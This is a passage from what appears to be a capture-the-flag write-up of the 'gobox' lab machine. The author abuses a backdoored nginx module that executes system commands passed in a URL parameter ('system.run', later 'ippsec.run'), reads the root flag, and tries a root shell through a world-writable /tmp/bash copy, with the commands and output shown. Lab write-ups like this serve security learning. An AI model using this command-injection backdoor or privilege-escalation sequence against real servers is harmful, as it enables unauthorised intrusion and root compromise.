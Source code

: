             }
            error_page   500 502 503 504  /50x.html;
            location = /50x.html {
                root   html;
            }
        }
    }

Usage: view-source:http://192.168.18.22/?system.run[command] or curl -g "http://192.168.18.22/?system.run[command]" The command can be any system command. The command you will want to use depends on the permissions that nginx runs with.

view-source:http://192.168.18.22/?system.run[ifconfig]
```

Let locate the module on the target.

![image](https://user-images.githubusercontent.com/69868171/132552309-35170fa8-5e93-4293-97df-b5dc70f25afc.png)

But when i try it i got failed.

![image](https://user-images.githubusercontent.com/69868171/132552580-181164cd-0063-41e1-b394-2acc3725f03c.png)

So i decided to strings the module.

![image](https://user-images.githubusercontent.com/69868171/132552872-75645fc6-2125-4224-b50a-1ce84c1d3b48.png)

```
ippsec.run
```

Now let try it again.

![image](https://user-images.githubusercontent.com/69868171/132553341-59c986f0-9d2b-4c3d-9b13-93731887652d.png)

Boom that is some good sh*t lol now let get the flag.

![image](https://user-images.githubusercontent.com/69868171/132553763-c5e556fa-f60e-4460-a81c-0ec1191922e8.png)


We have the root flag but man that is not fun without a real root shell lol.

![image](https://user-images.githubusercontent.com/69868171/132554979-40745dc4-7bcf-4033-a62a-b05a8151a75e.png)

```
www-data@gobox:/usr/lib/nginx/modules$ curl -g "http://127.0.0.1:8000/?ippsec.run[chmod 777 /tmp/bash]"
<://127.0.0.1:8000/?ippsec.run[chmod 777 /tmp/bash]"
curl: (52) Empty reply from server
www-data@gobox:/usr/lib/nginx/modules$ ls /tmp/bash
ls /tmp/bash
/tmp/bash
www-data@gobox:/usr/lib/nginx/modules$ /tmp/bash -p
/tmp/bash -p
www-data@gobox:/usr/lib/nginx/modules$ ls -la /tmp/bash
ls -la /tmp/bash
-rwxrwxrwx 1 root root 1183448 Sep  8 17:16 /tmp/bash
www-data@gobox:/usr/lib/nginx/modules$ /tmp/bash -p
/tmp/bash -p